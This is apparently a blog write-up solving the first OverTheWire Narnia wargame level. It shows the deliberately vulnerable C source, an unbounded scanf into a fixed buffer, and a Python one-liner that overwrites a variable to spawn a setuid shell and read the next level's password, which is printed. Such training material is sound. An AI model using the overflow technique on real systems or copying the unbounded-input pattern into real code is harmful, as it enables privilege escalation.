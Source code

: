 ```yaml
---
layout: post
title:  "Overthewire.org - Narnia 0-4"
date:   2020-04-26 15:07:19
categories: [Binary Exploitation]
comments: true
---
```

## Overthewire.org - Narnia 0-4
This blogpost contains the solutions Narnia series of challenges from overthewire, this category of challenges are aimed at beginners to binary exploitation.

First step is ssh into overthewire.org with the provided credentials for narnia challenges.All Narnia binaries and source files are located in /narnia/. 

Let's take a look at the code of this program.The below C code is the source code for the first challenge in the Narnia series of challenges from Overthewire.
```c++

#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
From the code it's clear we need to give val the value of 0xdeadbeef to get a shell as narnia1 user.
By observing the code we can spot the issue from scanf() function. The scanf() is used to get the input for buffer buff. and this function have no bound checkings on input,hence we can overwrite the variable “val” with any value we like.
```

```bash
file narnia0
narnia0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0840ec7ce39e76ebcecabacb3dffb455cfa401e9, not stripped
```
Our target binary here is narnia0 and it is a ELF 32-bit binary.ELF is Executable Linkable Format which consists of a symbol look-ups and relocatable table, that is, it can be loaded at any memory address by the kernel.

Let's send some crafted inpu to the program and observe 

```python
narnia0@narnia:/narnia$ python -c 'print 20 * "A" + "CCCC"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAACCCC
val: 0x43434343
WAY OFF!!!!
narnia0@narnia:/narnia$ 
```
Great we overited the val variable with 0x43434343 which is our 4 "C". Now we know we can overite the val variable . We just need to replace "C" with 0xdeadbeef which is the correct value the program accept. Before that we need to convert 0xdeadbeef to little endian format which is "\xef\xbe\xad\xde".

## Grabbing the flag:

```python
narnia0@narnia:/narnia$ (python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```

Running the above command give us a shell as narnia1, now we can cat the flag. This is a very simple buffer overflow example.



